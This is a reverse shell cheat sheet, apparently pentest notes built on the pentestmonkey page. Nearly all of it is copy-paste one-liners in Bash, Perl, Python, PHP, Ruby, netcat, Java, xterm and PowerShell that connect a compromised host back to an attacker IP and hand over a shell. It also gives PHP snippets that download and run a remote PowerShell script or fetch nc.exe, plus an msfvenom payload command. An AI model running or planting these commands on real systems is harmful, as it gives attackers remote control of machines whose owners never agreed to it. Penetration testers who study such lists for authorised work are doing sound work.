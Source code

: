 # Reverse Shell Cheat Sheet

[Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell. If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former. Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared. The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.

## Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
```sh
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Perl

Here’s a shorter, feature-free version of the perl-reverse-shell:
```sh
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
There’s also an alternative PERL revere shell [here](|http://www.plenz.com/reverseshell).

## Python

This was tested under Linux / Python 2.7:
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
```sh
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

## PHP with Powershell on Windows in .php file
```php
<?php echo exec("powershell -command \"IEX(New-Object Net.WebClient).downloadString('http://10.10.14.77/Invoke-PowerShellTcp.ps1')\""); ?>
```

## PHP with Netcat on Windows in .php file
```php
<?php echo exec("powershell -command \"(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.77:7777/nc.exe','nc.exe')\""); ?>
```

```php
<?php exec(".\nc.exe 10.10.15.171 6667 -e cmd.exe"); ?>
```

## Ruby

```sh
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
```sh
nc -e /bin/sh 10.0.0.1 1234
```
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.0.0.1 1234 >/tmp/f
```

## Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
[Untested submission from anonymous reader]

## xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```sh
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```sh
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
```sh
xhost +targetip
```

## Powershell

``` 
$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
``` 

## Nishang Reverseshell with small payload (zB buffer overflow)
```sh
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.x -Port 4444
```
```bash
msfvenom -a x86 --platform Windows -p windows/exex CMD="powershell \"IEX(New-Object Net.webclient)downloadString('http://10.10.10.x/Invoke-PowerShellTcp.ps1')\"" -e x86/unicode_mix -b 'x00' BufferRegister=EAX -f python
```
```python
python -m SimpleHTTPServer 80
GET /Invoke-PowerShellTcp.ps1'
```
```sh
nc -nlvp 4444
```





## Automated Shell Generation

With shellpop (https://github.com/0x00-0x00/ShellPop) you can generate all kinds of shells easily.

Example for a PHP Reverse Shell:
`shellpop --reverse --number 5 --host tun0 --port 1337`


tags: pentest snippets reverse_shell
